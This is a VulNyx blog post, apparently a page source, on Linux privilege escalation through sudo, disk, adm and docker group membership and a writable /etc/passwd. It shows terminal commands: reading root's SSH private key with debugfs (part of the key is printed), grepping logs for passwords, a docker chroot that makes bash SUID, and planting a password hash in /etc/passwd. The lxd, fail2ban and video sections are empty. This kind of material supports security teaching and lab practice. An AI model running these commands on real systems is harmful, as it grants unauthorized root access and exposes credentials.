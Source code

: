 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Groups

#### sudo

When a user is part of the `sudo` **group**, he can run any command as the `root` user.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),27(sudo)

# Abuse Group
low@vulnyx:~$ sudo su
root@vulnyx:~# id
uid=0(root) gid=0(root) groups=0(root)
```

#### disk

When a user is part of a `disk` **group**, he or she is granted direct access to the system **disks** and **partitions**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)

# Abuse Group
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm

low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
```

#### adm

When a user is part of the `adm` **group**, he can **read log files** on the system.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),4(adm)

# Abuse Group
low@vulnyx:~$ grep --color -Eri "pass|password|secret|db" /var/log 2>/dev/null
```

#### docker

When a user is part of the `docker` **group**, they have the ability to **manage containers**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),109(docker)

# Abuse Group
low@vulnyx:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# chmod 4755 /bin/bash
# exit
low@vulnyx:~$ /bin/bash -pi
```

#### lxd

#### fail2ban

#### video

---

### /etc/passwd (Writable)

If a low-privileged user has permissions to write to the `/etc/passwd` file, an attacker can remove the `:x:` (on the `root` user line) and add a **hash**.  
This will change the file where a user's authentication is performed, from being done through the `/etc/shadow` file to being done through the `/etc/passwd` file.

```ruby
# Check Permissions
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd

# Create Hash
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0

# Add Hash
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash
# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash

# Authenticate
low@vulnyx:~$ su -
Password:
root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>

